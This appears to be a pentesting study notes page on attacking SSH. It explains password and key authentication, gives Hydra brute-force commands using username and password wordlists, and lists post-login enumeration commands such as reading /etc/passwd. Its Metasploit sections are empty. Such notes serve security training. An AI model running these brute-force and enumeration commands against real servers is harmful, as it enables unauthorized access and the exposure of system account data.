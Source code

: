 # Exploiting SSH
> SSH (Secure Shell) is a remote administration protocol that offers encryption and is the successor to Telnet. SSH is typically used for remote access to servers and system. 

SSH Default Port: `22`

## Contents
- [Intro](#)
- [](#)

## Intro

- SSH used TCP port 22 by default, however (like many other services) it can be configured to use any other open TCP port.
- SSH authentication can be configured in two ways:
  - Username and password authentication
    - Therefore, we can perform a brute-force attack on the SSH server in order to identify legitimate credentials and consequently gain access to the target system.
  - Key-based authentication (no username/password)
    - The user's public key is copied to the server
    - The user's private key is used to login

## [Hydra](../../hydra.md): Brute Force
```
hydra -L /usr/share/.../common_users.txt -P /usr/share/.../unix_passwords.txt -t 4 ssh://[target ip]
or
hydra -L /usr/share/.../common_users.txt -P /usr/share/.../unix_passwords.txt -t 4 [target ip] ssh
```
- `-t 4` : Limits the number of threads so you don't DoS the SSH server.
- If this gets you logins, try them out: 
```
ssh [remote_username]@[remote_host]
```
- Then enumerate basic info: `whoami`, `groups sysadmin`, `cat /etc/*issue`, `uname -r`, `cat /etc/passwd`

## MetaSploit

### SSH Version Info

### SSH Login: Brute Force
